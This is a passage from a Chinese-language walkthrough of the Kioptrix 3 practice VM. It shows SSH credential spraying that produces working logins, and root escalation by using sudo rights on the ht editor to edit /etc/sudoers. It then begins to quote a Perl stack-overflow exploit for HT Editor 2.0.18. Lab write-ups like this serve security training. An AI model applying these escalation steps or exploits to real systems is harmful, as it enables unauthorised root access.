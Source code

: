 现在尝试用得到的用户去登陆 cms，但是发现都不对。

尝试用上面得到的用户和密码，使用 crackmapexec 去撞一下 ssh，结果发现登陆 ssh 的用户凭据 dreg:Mast3r 和 loneferret:starwars

```
ssh -oHostKeyAlgorithms=+ssh-rsa,ssh-dss dreg@192.168.10.194

ssh -oHostKeyAlgorithms=+ssh-rsa,ssh-dss loneferret@192.168.10.194
```

drep 被限制为 /bin/rbash，无 sudo 等权限，应该是没什么提权点。

重点看 loneferret 用户，有 sudo 权限：

```
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht
```

使用 ht 2.0.18 升级到 root 权限 按此操作 https://vk9-sec.com/ht-privilege-escalation/ 但是发现执行时 xtrem 有问题，不能打开图形界面，需要先设置一下 xterm：

```
export TERM=xterm
sudo ht
```

F3 打开 /etc/sudoers , 添加 /bin/bash , F2 保存， F10 退出，这时在查看 sudo 发现已经能够执行 /bin/bash

```
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
    (root) NOPASSWD: /bin/bash
```

```
loneferret@Kioptrix3:~$ sudo /bin/bash
root@Kioptrix3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:~# cd /root
root@Kioptrix3:/root# ls
Congrats.txt  ht-2.0.18
```

另一种提权方法，尝试在 searchsploit 中进行搜索，发现可利用：

```
HT Editor 2.0.18 - File Opening Stack Overflow | linux/local/17083.pl
```

将 pl 代码下载到目标服务器，chmod +x 后，尝试执行，出现错误，目标服务器的 perl 版本为 5.8.8，17083 需要的 perl 版本为 5.010，有些函数已经变化，需要进行修改。

找到了这个修改过后的 exp 使用:

```pl
# Exploit Title: HT Editor File openning Stack Overflow (0day)
# Date: March 30th 2011
# Author: ZadYree
# Software Link: http://hte.sourceforge.net/downloads.html
# Version: <= 2.0.18
# Tested on: Linux/Windows (buffer padding may differ on W32)
# CVE : None
#!/usr/bin/perl
=head1 TITLE

HT Editor <=2.0.18 0day Stack-Based Overflow Exploit


=head1 DESCRIPTION

```